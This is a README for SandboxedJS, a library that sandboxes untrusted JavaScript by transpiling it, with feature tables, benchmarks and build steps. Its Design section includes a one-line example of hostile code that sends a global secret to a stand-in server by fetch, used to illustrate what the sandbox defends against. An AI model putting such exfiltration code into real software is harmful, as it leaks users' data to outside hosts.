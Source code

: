 # SandboxedJS

Sandbox untrusted/arbitrary JavaScript code and safely execute it in isolation.

## Performance

Run `npm run benchmark` to benchmark SandboxedJS's `saveEval` against a native js `eval`. Currently most benchmarks comparisons show SandboxedJS is **~20x** slower than native JS. However, if you don't count the time required to transpile the code, execution time can be as low as **~1.3x** the speed of native JS, depending on the kind of work being performed. The goal for the MVP is to just get this thing working in a secure manner (breaking out of sandbox should be impossible), and optimizations can come later.

## Bindings to native and host JS APIs

One of the main focuses of this project is to support as many APIs as possible, both native ECMAScript APIs and host APIs (i.e. browser's `window` version of `globalThis`, DOM and such). To accomplish this, there is a separate node project under [bindings](https://github.com/joehinkle11/SandboxedJS/tree/main/bindings) which is responsible for taking in typescript definitions (i.e. a `lib.d.ts`) and then generating binding code for the sandbox environment. Recently all the hardcoded bindings were replaced with this system and all the old unit tests (15,000+) are passing. The hope is to get this binding generation system working so well that it's trivial to expose a JS library to the sandbox environment provided you have a typescript definition file for it.

## Status

Under active development. Looking for others to help out! 🙋‍♂️

## JS Support 

| Feature | Status |
| ------- | ------ |
| primitives | ✅ |
| `number` | ✅ |
| `string` | ✅ |
| `boolean` | ✅ |
| `null` | ✅ |
| `undefined` | ✅ |
| `bigint` | ✅ |
| `symbol` | ✅ |
| simple objects (i.e. `{a: true}`) | ✅ |
| weird numbers like `Infinity` or `NaN` | ✅ |
| autoboxing primitives to objects | ✅ |
| binary operators (`+`, `-`, `%`, etc.) | ✅ |
| unary operators  (`+`, `-`, `typeof`, etc.) | ✅ 
| arrays | ✅ |
| functions | ✅ |
| function constructors | ✅ |
| Function prototype for constructor call | ✅ |
| return | ✅ |
| `instanceof` | ✅ |
| `eval(...)` | ❌ |
| brainfuck-like code i.e. `+!![] / +![] // Infinity` | ✅ |
| function `bind` | ✅ |
| lambda/arrow functions | ⚠️ |
| `this` | ✅ |
| `arguments` | ✅ |
| global functions like `parseFloat` `parseInt` `isNaN` `isFinite` | ✅  |
| `unescape` `escape` | ✅ |
| function param names | ✅ |
| rest parameter | ✅ |
| spread operator | ❌ |
| throw | ⚠️ |
| try catch | ❌ |
| async | ❌ |
| await | ❌ |
| class | ❌ |
| getters/setters | ⚠️ |
| local variables | ✅ |
| assignment | ✅ |
| global variables | ⚠️ |
| prototypes | ✅ |
| `__proto__` on plain object init sets prototype | ✅ |
| `Object` global | ✅ |
| `Reflect` global | ⚠️ |
| `Proxy` global | ⚠️ |
| frozen / extensible object states | ⚠️ |
| enumerable / configurable object property states | ⚠️ |
| `delete` | ❌ |
| ternary operators | ❌ |
| destructuring | ❌ |
| imports | ❌ |


| Legend |  |
| ------- | ------ |
| ✅ | Finished  |
| ⚠️ | In development  |
| ❌ | Haven't started work  |

## Comparison of JS in JS Implementations

| Name | Link | Performance |
| ----------- | ----------- | --------- |
| SandboxedJS |  | ~20x slower than native |
| js.js | https://github.com/jterrace/js.js/ | [~200x slower than native]()https://github.com/jterrace/js.js/#status |
| JS-Interpreter | https://github.com/NeilFraser/JS-Interpreter/ | [~200x slower than native](https://github.com/NeilFraser/JS-Interpreter/issues/227) |


## Design

Let's say we want to sandbox the following untrusted JS code:

```js
fetch("https://api.example.com?stolenSecret=" + window.globalValue);
```

In this example, the untrusted code is attempting to grab a global value it should NOT have access to and pass the value to its server. If this code was naively run with `eval`, the host environment would be compromised.

To make untrusted JS code safe to run, SandboxedJS rewrites the untrusted code using a JS-to-JS transpilation step. Then it is safe to run `eval` on the transpiled js code. The resulting transpiled code of the above example might look something as follows:

```js
sContext.sLookUp("fetch").sCall([
  SBinaryOps.sBinaryAdd(
    new SStringValue("https://api.example.com?stolenSecret="),
    sContext.sLookUp("window").sLookUp("globalValue")
  )
])
```

Note, the "s" prefix is short for "sandboxed".

To produce this code, SandboxedJS uses [acorn](https://github.com/acornjs/acorn) to produce an AST of the untrusted JS. It then walks the entire AST and emits each piece of the tree in the format above.

## Running Locally

First you need to build the bindings.

Cd into bindings folder: `cd bindings`

Install deps: `npm i`

Build bindings: `npm run start`

You should now have src/gen/Bindings_Generated.ts present in your project.

Cd back to main folder: `cd ..`

Install deps: `npm i`

Run tests: `npm test`

Run benchmarks: `npm run benchmark`

Build to `lib` folder: `npm run build`

## Unique Features

 - Add metadata to any JS value which is invisible to the client (untrusted) JS code but visible to the host environment.
